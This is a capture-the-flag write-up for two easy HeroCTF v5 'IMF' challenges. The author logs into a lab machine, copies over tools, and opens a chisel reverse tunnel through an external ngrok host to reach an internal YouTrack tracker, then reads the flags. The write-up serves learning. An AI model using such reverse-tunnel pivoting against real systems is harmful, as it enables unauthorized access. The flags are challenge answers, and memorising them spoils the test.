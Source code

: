 # IMF#0 - 1

## Table of Contents

1. [IMF#0: Your mission, should you choose to accept it](#imf0:-Your mission,-should-you-choose-to-accept-it)
	1. [Background](#background)
	2. [Overview](#overview)
2. [IMF#1: Bug Hunting](#imf1:-Bug-Hunting)
	1. [Background](#background)
	2. [Overview](#overview)
	3. [Enumeration](#enumeration)
3. [Conclusion](#conclusion)

## IMF#0: Your mission, should you choose to accept it

### Overview

- 368 solves / 50 points
- Difficulty: Easy
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

### Background

The Infamous Mother Fluckers have been hired to take down a guy named Dave. I think his sister's husband's cousin's wife's brother's son had an affaire with our client's wife, and for some reason he want's to take it out on him. But who are we to judge right ? We're getting paid, that's enough for me.  
  
I got you a job in the same development start-up as Dave. In fact, you are his team mate. I asked around in some underground circles, and word is on the streets that our guy is selling customer information. If you can get proof of that and send it to his boss, he'll get fired and we'll get paid. I'm counting on you.  
  
And keep you eyes opened, you might find some other interseting stuff on the company's network.  
  
For this mission, you are bob. Your ssh credentials are `bob:password`.  
  
Enter this flag to accept the mission : `Hero{I_4cc3pt_th3_m1ss10n}`  
  
_This message will self-destruct in 5 seconds._  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

- **Flag: `Hero{I_4cc3pt_th3_m1ss10n}`**

## IMF#1: Bug Hunting

### Overview

- 99 solves / 68 points
- Difficulty: Easy
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

### Background

Tracking bugs can be tidious, if you're not equiped with the right tools of course...  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514191443.png)

### Enumeration

**In this challenge, we can SSH into user `bob` with password `password`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/IMF#0-#4)-[2023.05.14|18:56:37(HKT)]
└> ssh bob@dyn-01.heroctf.fr -p 11386
[...]
bob@dyn-01.heroctf.fr's password: 
[...]
bob@dev:~$ 
```

```
bob@dev:~$ cat welcome.txt 
Hi Bob!

Welcome to our firm. I'm Dave, the tech lead here. We are going to be working together on our app.

Unfortunately, I will be on leave when you arrive. So take the first few days to get familiar with our infrastructure, and tools.

We are using YouTrack as our main issue tracker. The app runs on this machine (port 8080). We are both going to use the "dev" account at first, but I will create a separate account for you later. There is also an admin account, but that's for our boss. The credentials are: "dev:aff6d5527753386eaf09".

The development server with the codebase is offline for a few days due to a hardware failure on our hosting provider's side, but don't worry about that for now.

We also have a backup server, that is supposed to backup the main app's code (but it doesn't at the time) and also the YouTrack configuration and data.

Only I have an account to access it, but you won't need it. If you really have to see if everything is running fine, I made a little utility that run's on a web server.

The command to check the logs is:
curl backup

The first backups might be messed up a bit, a lot bigger than the rest, they occured while I was setting up YouTrack with it's administration account.

Hope you find everything to you liking, and welcome again!

Dave
```

**So, there's a "YouTrack" Project Management Tool, and we can login with credentials: `dev:aff6d5527753386eaf09`.**

**Since the instance machine doesn't have `netstat`, I'll upload it via `scp`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/IMF#0-#4)-[2023.05.14|19:01:54(HKT)]
└> scp -P 11386 -r /usr/bin/netstat bob@dyn-01.heroctf.fr:/tmp/netstat
bob@dyn-01.heroctf.fr's password: 
netstat                                                              100%  152KB 192.1KB/s   00:00    
```

```shell
bob@dev:~$ /tmp/netstat -tunlp
(No info could be read for "-p": geteuid()=1001 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:35533         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.11:45091        0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.11:58050        0.0.0.0:*                           -                   
```

Can confirm port 8080 is listening on all interface. Also, there's a weird 35533 port open?

Anyway, to access the YouTrack application, we can use a port forwarding tool.

**To do so, I'll use `chisel`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/IMF#0-#4)-[2023.05.14|19:03:20(HKT)]
└> scp -P 11386 -r /opt/chisel/chiselx64 bob@dyn-01.heroctf.fr:/tmp/chisel  
bob@dyn-01.heroctf.fr's password: 
chiselx64                                                            100% 7888KB 317.8KB/s   00:24    
```

**Setup a port forwarding service, like Ngrok:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/IMF#0-#4)-[2023.05.14|19:12:03(HKT)]
└> ngrok tcp 4444 
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:16442 -> localhost:4444                              
[...]
```

**Setup a reverse port forwarding server:**
```shell
┌[siunam♥earth]-(/opt/chisel)-[2023.05.14|19:04:57(HKT)]
└> ./chiselx64 server -p 4444 --reverse
2023/05/14 19:05:42 server: Reverse tunnelling enabled
2023/05/14 19:05:42 server: Fingerprint MNPD78StKIbLJT5I39BqUCw190PpkWyXRkPyhKPnxMM=
2023/05/14 19:05:42 server: Listening on http://0.0.0.0:4444
```

**Connect to server from the client:**
```shell
bob@dev:~$ /tmp/chisel client 0.tcp.ap.ngrok.io:16442 R:5001:0.0.0.0:8080&
[2] 1197
11:19:01 client: Connecting to ws://0.tcp.ap.ngrok.io:16442
11:19:03 client: Connected (Latency 270.048918ms)
```

**That way, we can access it from `localhost:5001`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514192058.png)

**As we have a credential, let's login!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514192129.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514192145.png)

**In here, we can view "Issues":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514192329.png)

**In "ST-5 Is that..." issue, we can find the flag!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230514192432.png)

- **Flag: `Hero{1_tr4ck_y0u_tr4ck_h3_tr4ck5}`**

## Conclusion

What we've learned:

1. Port Forwarding With `chisel` & Enumerating YouTrack